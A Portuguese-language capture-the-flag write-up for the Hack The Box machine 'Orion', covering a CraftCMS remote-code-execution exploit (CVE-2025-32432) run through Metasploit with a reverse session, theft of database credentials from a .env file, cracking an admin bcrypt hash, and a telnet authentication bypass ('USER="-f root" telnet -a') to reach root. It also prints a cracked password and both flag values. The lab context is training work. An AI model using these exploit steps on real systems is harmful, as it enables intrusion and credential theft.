









# Orion

A principio, me era disponibilizado apenas um IP (10.129.xxx.xxx).

Fazendo um nmap, percebemos que existem apenas duas portas abertas: 22 para ssh e 80 para http.

Ao tentar acessar o servidor web pelo navegador, somos redirecionados para o domínio orion.htb. Como esse domínio não existe localmente, basta adicioná-lo ao /etc/hosts

Após isso conseguimos acessar normalmente o site. Trata-se de uma página simples de uma empresa de telecomunicações.

Ao tentar acessar endpoints classicos, percebi que o /admin funcionava, e redireciona para /admin/login.

Ao abrir essa página percebemos que ela utiliza CraftCMS. Além disso, no rodapé é exibida a versão utilizada pelo sistema, 5.6.16.

Pesquisando rapidamente essa versão, descobrimos que ela é vulnerável ao CVE-2025-32432, que permite execução remota de código.

Antes de explorar essa vulnerabilidade, é necessário obter alguns cookies e o token CSRF. Basta acessar a própria página de login para receber os cookies CraftSessionId e CRAFT_CSRF_TOKEN. Inspecionando a resposta da página também encontramos o valor utilizado no header X-CSRF-Token.

Com essas informações conseguimos montar uma requisição para o endpoint vulnerável actions/assets/generate-transform. Inicialmente podemos enviar um payload simples chamando phpinfo() apenas para confirmar que a vulnerabilidade realmente funciona.

Como a exploração manual é bastante trabalhosa, eu utilizei o módulo já disponível no Metasploit para essa CVE.

\>use exploit/linux/http/craftcms_preauth_rce_cve_2025_32432
\>set RHOSTS orion.htb
\>set RPORT 80
\>set LHOST 10.10.15.49 (meu IP no VPN do HTB)
\>exploit

Após executar o exploit, conseguimos uma sessão meterpreter como o usuário www-data e, em seguida, abrimos uma shell interativa.

\>meterpreter > shell
script /dev/null -c /bin/bash

Agora podemos enumerar os arquivos da aplicação. No diretório do CraftCMS encontramos um arquivo .env contendo as credenciais do banco de dados, e com isso, conseguimos acessar o banco mySQL.

\>mysql -u root -p orion

Na tabela users existe o hash bcrypt do administrador adam.

Salvando esse hash em um arquivo e utilizando o hashcat juntamente com a wordlist rockyou.
A senha encontrada foi: darkangel

Tentando usar essa senha no SSH, ela funciona perfeitamente, com isso liberando o acesso à primeira flag de user: 820681df1e989017916fe4fc366c6cd7

Agora é necessário escalar privilégios para conseguir acessar a flag de root.

Verificando os serviços em execução, percebemos que existe um servidor telnet escutando apenas localmente na porta 23.

\$ netstat -tulnp
\$ telnet --version

A versão instalada é vulnerável ao CVE-2026-24061, que permite ignorar a autenticação utilizando a variável de ambiente USER.

Assim, basta executar:

\$ USER="-f root" telnet -a 127.0.0.1

E, com isso, a flag de root: 9cda1bdd0cce17401329d0e71aa0cf9a

